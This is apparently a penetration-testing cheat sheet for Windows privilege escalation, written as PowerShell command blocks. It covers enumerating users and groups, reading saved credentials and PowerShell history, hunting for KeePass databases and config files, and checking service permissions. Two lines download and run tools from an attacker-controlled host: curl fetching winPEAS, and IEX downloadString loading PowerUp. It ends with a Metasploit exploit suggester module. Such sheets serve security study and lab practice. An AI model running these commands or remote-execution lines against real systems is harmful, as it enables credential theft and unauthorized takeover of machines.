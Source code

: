 
> [!NOTE] Note
> set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```powershell
whoami /all

cmdkey /list

systeminfo

net user
net user <current user>
net localgroup

Get-History

(Get-PSReadlineOption).HistorySavePath
type <previous command output>
ls C:\Users\bob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\

ipconfig /all
netstat -ano
route print

dir C:\
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls <service binary path>

$env:AppKey

gci -Path C:\ -Include *.kdbx,.git -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci -h -Path C:\Users\ -Include *.exe,*.txt,*.rdp,*.pdf,*.xls,*.xlsx,*.xml,*.doc,*.docx,*.ps1,*.bat,*.ini,*.yml -File -Recurse -ErrorAction SilentlyContinue
gci C:\Users\Public

where.exe /R C:\Windows bash.exe
where.exe /R C:\Windows wsl.exe
```
1.  Snoop on processes
```powershell
Import-Module .\Watch-Command.ps1
Get-Process | watch-command -diff -cont -verbose -property "Image Name"
```
2. Run PEAS,
```powershell
curl 192.168.45.x/winPEAS.exe -o winpeas.exe
.\winpeas.exe
```
3. PowerUp
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1');Invoke-Allchecks
```
4. Running the `sysinfo` command shows us that the system is of x86 bit architecture, giving us even more reason to trust the Local Exploit Suggester
```
post/multi/recon/local_exploit_suggester
```